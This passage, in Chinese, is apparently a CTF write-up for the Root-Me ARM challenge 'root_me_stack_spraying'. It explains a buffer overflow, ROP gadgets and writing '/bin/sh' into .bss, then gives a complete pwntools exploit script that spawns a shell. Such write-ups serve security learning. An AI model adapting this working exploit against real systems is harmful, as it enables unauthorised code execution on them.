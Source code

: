 程序中现成有 system ，这里就向 bss 写入 ``/bin/sh\x00`` 作为参数调用。然后就是控制 r0 的值，先用 gadget 控制 r3 的值，接着将程序控制到 ``0x1067c`` 从而控制 r0 。

程序劫持到 ``0x1067c`` 之后就会一直执行下去，遇到 ``0x10684`` 的话就会从 r11 上取值给 pc 而不是用 bss 段上的数据，所以这里还需要提前向 r11 写入一个存储着 exec 函数地址的地址，这个在写入 bss 时一起实现。两段 payload 分别是：

```python
payload1 = 'a'*(padding-4) + p32(elf.bss() + 0x300)
payload1 += p32(pop_r3_pc)
payload1 += p32(elf.bss() + 0x300-0x4*3)  # R3:write address
payload1 += p32(main_scanf)

payload2 = "/bin/sh\x00" + p32(elf.sym['exec'])
payload2 += p32(pop_r3_pc) + p32(elf.bss() + 0x300-0x4*3) + p32(0x0001067C)
payload2 += p32(elf.bss() + 0x300-0x4) + p32(0x0001067C)
```

实际调试时发现 exec 前面几条函数会覆盖 ``/bin/sh\x00`` 前面的四个字节，不过问题不大，将其修改为 ``xxxx;sh\x00`` 即可。

### EXP

```python
from pwn import *
import sys
context.binary = "./root_me_stack_spraying"
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
    p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "./root_me_stack_spraying"])
else:
    p = process(["qemu-arm", "-g", "1234", "-L", "/usr/arm-linux-gnueabihf", "./root_me_stack_spraying"])

elf = ELF("./root_me_stack_spraying")
libc = ELF("/usr/arm-linux-gnueabihf/lib/libc.so.6")

pop_r3_pc = 0x000103f8
pop_r11_pc = 0x00010634
padding = 0x44
main_scanf = 0x0001065C

#payload1 = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"
payload1 = 'a'*(padding-4) + p32(elf.bss() + 0x300)
payload1 += p32(pop_r3_pc)
payload1 += p32(elf.bss() + 0x300-0x4*3)  # R3:write address
payload1 += p32(main_scanf)         

p.recvuntil(":\n")
p.sendline(payload1)

log.info("bss:"+hex(elf.bss()))
log.info("bss:"+hex(elf.sym['exec']))

# payload2 = "/bin;sh\x00" + p32(elf.sym['exec'])
# payload2 += p32(pop_r3_pc) + p32(elf.bss() + 0x300-0x4*3) + p32(pop_r11_pc)
# payload2 += p32(elf.bss() + 0x300-0x4) + p32(0x0001067C)
payload2 = "skye;sh\x00" + p32(elf.sym['exec'])
payload2 += p32(pop_r3_pc) + p32(elf.bss() + 0x300-0x4*3) + p32(pop_r11_pc)
payload2 += p32(elf.bss() + 0x300-0x4) + p32(0x0001067C)

sleep(0.2)
p.sendline(payload2)
```